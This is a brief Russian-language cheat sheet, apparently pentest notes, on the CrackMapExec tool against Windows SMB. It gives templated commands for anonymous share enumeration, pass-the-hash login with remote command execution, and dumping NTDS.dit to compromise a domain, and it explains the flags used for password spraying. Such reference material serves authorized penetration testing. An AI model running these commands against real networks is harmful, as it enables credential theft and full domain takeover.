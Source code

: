 Утилита, позволяющая выполнить проверку на доступность подключения к пользователям на windows машине.
## SMB
**Примеры:**
Прочитать доступные службы:
```
crackmapexec smb {IP} -u '' -p '' --shares
```
Аутентифицироваться по hash-у:
```
crackmapexec smb {IP} -u '' -H {HASH} -x {comand}
```
**Флаги:**
`-u` - username
`-p` - password
`-H` - password's hash
`-x` - исполнить команду
`--ntds` - дамп файла "**`ntds.dit`**". (А значит службы **NTDS**).

`-L` - посмотреть доступные модули
`-M {name}` - включить модуль
>вывод попадает в /tmp/{module name}/{IP}.json
>spider_plus - лист файлов и директорий

`--share {name}` - узнать конкретную службу, например DOCS
`--users` -  перечислить домены с юзерами

`--continue-on-success` - отвечает за то, чтобы процесс не прервался после нахождения валидной пары. Полезный флаг для **Password Spraying** атаки.
`--local-auth` - отвечает за прохождение аутентификации локально (не доменная учетная запись).
`--no-bruteforce` - отвечает за установление соответствия между пользователем и паролем, таким образом можно легко найти валидные учетные данные из большого списка, когда одному пользователю принадлежит только один определенный пароль.

---

### Дамб NTDS
Дамп NTDS.dit, тем самым полностью скомпрометировать домен:
```
crackmapexec smb {IP} -u {User} -p {pass} --ntds 
```